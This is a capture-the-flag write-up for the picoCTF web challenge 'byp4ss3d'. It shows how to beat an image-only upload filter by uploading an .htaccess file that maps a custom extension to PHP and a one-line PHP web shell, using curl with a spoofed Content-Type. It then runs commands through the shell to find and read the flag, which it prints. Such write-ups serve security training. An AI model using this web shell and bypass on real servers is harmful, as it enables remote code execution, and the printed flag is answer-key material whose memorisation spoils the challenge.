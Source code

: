 # byp4ss3d

<img width="500" height="500" alt="image" src="https://github.com/user-attachments/assets/6c81eebb-16b2-4cc8-9b03-58f8d9f79bac" />

**Tag:** `Web EXploitation`

**Description:** 
> A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't. You can access the web application at here!

**Attachments:** `http://amiable-citadel.picoctf.net:61584/`

**Hints:**

<details>
<summary>Hint 1</summary>

Apache can be tricked into executing non-PHP files as PHP with a `.htaccess` file.

</details>

<details>
<summary>Hint 2</summary>
  
Try uploading more than just one file.

</details>

**Author:** Yahaya Meddy

**Solved:** `510 users solved`

---

# Prologue

<img width="1863" height="1010" alt="image" src="https://github.com/user-attachments/assets/e605e0a8-ecd9-4204-835f-42b251e803b1" />

A UI is provided for uploading JPEG, PNG, and GIF files. This challenge is a file upload injection and remote code execution challenge.

<img width="500" height="246" alt="image" src="https://github.com/user-attachments/assets/14ee6d2d-6abc-494e-a7a7-41f073c0353c" />

Actually, there is a cool plot twist in this challenge🗿. I can't upload my shell file because of Windows🗿. Thank you Windows for making it difficult for me, so I'll upload it using curl.

# Exploitation

First, we'll create two different file types: .htaccess and shell.xyz. The extension you use is free; it doesn't have to be xyz, as we'll change it to php later in the .htaccess section.

```bash
 zsh >  echo '<?php system($_GET["cmd"]); ?>' > shell.xyz
```

After creating a non-exe shell because the file is not PHP, we will manipulate our shell file in .htaccess. Fill .htaccess with this script.

```bash
 zsh > echo 'AddType application/x-httpd-php .xyz' > .htaccess
```

Please adjust it to your respective extensions. Because I named my file shell.xyz, so I use .xyz. Next, we upload the 2 files by manipulating the Content-Type to contain image/jpeg. because windows has been giving me trouble. then I will upload it using curl

```bash
curl -X POST -F "image=@.htaccess;type=image/jpeg" http://amiable-citadel.picoctf.net:61584/upload.php
Successfully uploaded!<br>Access it at: <a href='images/.htaccess'>images/.htaccess</a>%  
```

```bash
curl -X POST -F "image=@shell.xyz;type=image/jpeg" http://amiable-citadel.picoctf.net:61584/upload.php
Successfully uploaded!<br>Access it at: <a href='images/shell.xyz'>images/shell.xyz</a>%  
```

After successfully logging in, we can open the browser and enter the URL like this

```
http://amiable-citadel.picoctf.net:61584/images/shell.xyz?cmd=id
```

<img width="500" height="98" alt="屏幕截图 2025-10-12 235022" src="https://github.com/user-attachments/assets/b7b6e0e6-9524-43ec-b4c9-15d764181529" />

and yes, our remote code execution was successful. Next, we look for where the flag is located. use this

```
http://amiable-citadel.picoctf.net:61584/images/shell.xyz?cmd=find+/+-name+*flag*+2%3E/dev/null
```

<img width="1000" height="226" alt="屏幕截图 2025-10-12 235058" src="https://github.com/user-attachments/assets/617ffdd7-2fea-430b-b484-38424313257b" />

So we got the location in /var/www/html. Next we just read the file.

<img width="1000" height="145" alt="屏幕截图 2025-10-12 235120" src="https://github.com/user-attachments/assets/9d8413ec-7357-4a39-9211-551ffe42c94a" />

---

# FLAG: picoCTF{s3rv3r_byp4ss_0c257942}

